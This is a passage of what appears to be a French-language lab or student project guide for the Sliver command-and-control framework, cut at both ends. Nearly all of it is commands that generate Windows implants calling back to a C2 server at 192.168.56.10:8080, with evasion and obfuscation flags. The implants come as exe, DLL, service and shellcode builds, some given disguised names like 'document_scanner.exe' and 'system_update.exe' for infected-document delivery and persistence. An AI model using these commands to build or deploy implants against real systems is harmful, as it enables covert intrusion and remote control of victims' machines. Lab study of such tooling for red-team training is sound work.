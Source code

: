 ```bash
    --jitter 30s --interval 120s \
    --skip-symbols --evasion \
    win10-beacon

# Profil Shellcode (pour injection)
sliver > profiles new --http 192.168.56.10:8080 \
    --os windows --arch amd64 --format shellcode \
    --skip-symbols --evasion \
    win10-shellcode

# Lister les profils créés
sliver > profiles
```

### Génération des payloads du projet
```bash
# Générer les payloads pour différents scénarios

# 1. Payload principal (document infecté)
sliver > profiles generate win10-standard --save ~/project-m1/payloads/document_scanner.exe

# 2. Payload de persistance
sliver > profiles generate win10-beacon --save ~/project-m1/payloads/system_update.exe

# 3. DLL pour injection
sliver > profiles generate win10-dll --save ~/project-m1/payloads/library.dll

# 4. Shellcode pour techniques avancées
sliver > profiles generate win10-shellcode --save ~/project-m1/payloads/payload.bin
```

### Payloads avec techniques d'évasion avancées
```bash
# Payload avec obfuscation et anti-analysis
sliver > generate --http 192.168.56.10:8080 \
    --os windows --arch amd64 --format exe \
    --evasion --skip-symbols \
    --canary "canary-m1-project" \
    --save ~/project-m1/payloads/advanced_evasion.exe

# Payload multiformat pour tests
sliver > generate --http 192.168.56.10:8080 \
    --os windows --arch amd64 --format service \
    --evasion --skip-symbols \
    --save ~/project-m1/payloads/service_payload.exe
```

---

## 🔍 Monitoring et Logging
